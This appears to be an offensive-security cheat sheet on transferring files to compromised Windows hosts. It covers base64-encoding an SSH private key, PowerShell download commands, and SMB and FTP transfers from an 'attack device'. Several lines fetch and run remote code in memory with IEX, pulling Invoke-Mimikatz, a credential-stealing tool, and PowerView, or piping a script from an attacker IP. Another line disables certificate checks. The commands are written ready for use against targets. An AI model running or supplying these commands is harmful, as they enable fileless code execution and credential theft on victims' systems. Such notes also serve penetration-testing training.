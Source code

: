 # *Windows*
- ### *PowerShell Base64 Encode & Decode*
	- Encode SSH key using `cat id_rsa | base64 -w 0;echo`.
	- Copy the content and put it into a Windows PowerShell and use some PowerShell functions to decode it using `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64>"))`.
	- Confirm the file was transferred successfully using `Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`.
	- **NOTE:** CMD has a maximum string length of 8,191 characters, which could make this method not impossible.
- ### *Download*
	- ##### PowerShell
		- **System.Net.WebClient**
			- Download a file over `HTTP, HTTPS or FTP`.
			- `(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')`
			- Fileless method using `Invoke-Expression` (run from memory).
				- `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
				- `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`
		- **Invoke-WebRequest**
			- But it is **slower** at downloading files (aliases `iwr, curl, wget`)
			- `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
		- **Common Errors**
			- Internet Explorer first-launch configuration isn't completed, use the option `-UseBasicParsing`.
				- `iwr https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
			- Certificate isn't trusted
				- Use this command before the download command. `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
	- ##### SMB
		- Create an `SMB` server on our device with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) and then use `copy, move` or PowerShell `Copy-Item`.
			- `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test` on the attack device.
				- Mount the `SMB` server with username and password. `net use n: \\<ip>\share /user:test test`
				- `copy n:\file` on the target device. 
			- Without `-user` and `-password`, no need to mount. `copy \\<ip>\share\file`.
	- ##### FTP
		-  Configure an `FTP` server on our device with Python module `pyftpdlib`.
			- `sudo pip3 install pyftpdlib`
			- By default, `pyftpdlib` uses port `2121`.
			- Start the server using `sudo python3 -m pyftpdlib --port 21`
			- Using PowerShell
				- `(New-Object Net.WebClient).DownloadFile('ftp://<ip>/file', '<to path>'`
				- In case **Non-Interactive Shell**, create an FTP command file to download a file.
					- `echo open <ip> > ftpcommand.txt`
					- `echo USER anonymous >> ftpcommand.txt`
					- `echo binary >> ftpcommand.txt`
					- `echo GET file.txt >> ftpcommand.txt`
					- `echo bye >> ftpcommand.txt`
					- `ftp -v -n -s:ftpcommand.txt`